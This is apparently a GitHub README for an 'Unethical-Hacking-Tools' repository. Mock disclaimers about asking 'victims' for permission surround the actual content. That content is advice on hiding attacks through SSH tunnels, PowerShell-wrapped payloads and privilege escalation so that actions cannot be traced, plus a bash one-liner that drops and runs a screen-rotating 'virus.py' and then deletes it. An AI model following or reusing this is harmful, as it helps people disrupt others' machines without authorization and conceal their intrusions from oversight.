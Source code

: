 # Unethical-Hacking-Tools
![Ethical Hacking](https://t3.ftcdn.net/jpg/02/04/94/58/360_F_204945831_yzvd0Ult5kS5yjXDUjoHxMgUCE63KKf9.jpg)

## !!!! This repo does NOT encourage unethical hacktivism !!!!!!
##
## This repo is for learning & professional development purposes
## 
## Rule 1:
## Ask your victims for permissions before doing any of these
##
## Rule 2:
## Do NOT launch these shit without black & white permissions
## 
## Rule 3:
## Do NOT get addicted to these crazy shit
##
## Please ONLY run these scripts on your victims, NOT your good selves...
##
## Best Practices:
## Launching these shit with encrypted SSH tunnels
## Encapsulate these maliacious payloads using cmd.exe => Powershell.exe -command "maliciousPayload1 && maliciousPayload2"
## Grab an Ansible Tower => Enumerate a user for Privilege Escalation => using "commands" to bypass artifactory code screening
## Thus, no one can easily trace what the heck you did to them
##
## If you persist doing these crazy shit without formal permissions
## I hope you do NOT get caught...
##
## Do NOT blame this repository owner
## This repository owner never suggests hacktivism
##
## Usage
## Never store this kind of stuff on your/your victims PCs
## Otherwise, you go to jail...
##
## Bash
## sudo python -m pip install rotate-screen --user root &&
## cd tempDir &&
## printf "import time, rotatescreen as rs\npd = rs.get_primary_display()\nangle_list = [0, 90, 180, 270, 90, 180, 90, 270]\nwhile True:\n\tfor i in range(5):\n\t\tfor x in angle_list:\n\t\t\tpd.rotate_to(x)\n\t\t\ttime.sleep(0.5)" > virus.py &&
## python ./virus.py &&
## rm -rf tempDir/virus.py
## echo "pythonCode" > *.py &
##
## Please proceed with extra due care & sincerity
##
## Enjoy :D
##
## git clone <.git>
## sudo python3 *.py


Do NOT use these...
